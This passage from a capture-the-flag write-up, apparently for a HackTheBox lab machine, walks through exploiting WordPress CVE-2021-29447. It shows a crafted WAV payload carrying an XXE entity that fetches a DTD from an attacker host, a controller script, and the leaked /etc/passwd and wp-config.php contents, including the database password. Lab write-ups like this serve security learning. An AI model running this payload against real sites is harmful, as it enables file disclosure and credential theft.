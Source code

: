so I tried to login to the wp-admin page and it worked. Do you remember at the beginning of the writeup where we found a wordpress CVE and we said that we will leave it for later? now it is the time to use it. If you navigate to [github repository](https://github.com/elf1337/blind-xxe-controller-CVE-2021-29447) you will find some steps to exploit this version of wordpress. First we create a wav file named payload.wav
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.16.38:8000/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```
After that we run the main.py script
```bash
python3 main.py 10.10.16.38
Listening on port 8000
$console > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```
And BOOM we got a blind xxe injection and if you read the wp-config.php file you will get the ftp username
```bash
$console > /var/www/metapress.htb/blog/wp-config.php
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
```